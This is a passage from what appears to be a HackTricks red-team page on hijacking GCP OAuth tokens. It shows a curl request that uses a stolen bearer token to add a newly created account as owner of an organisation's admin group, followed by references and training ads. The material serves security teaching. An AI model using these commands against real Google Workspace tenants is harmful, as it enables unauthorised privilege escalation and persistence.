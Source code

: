 ```bash
    "changePasswordAtNextLogin": false
  }'

# Add to group
curl -X POST \
  'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
  -H 'Authorization: Bearer <ACCESS_TOKEN>' \
  -H 'Content-Type: application/json' \
  -d '{
    "email": "deleteme@domain.com",
    "role": "OWNER"
  }'
```

{% hint style="danger" %}
It's not possible to give the new user the Super Amin role because the **refresh token doesn't have enough scopes** to give the required privileges.
{% endhint %}

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}
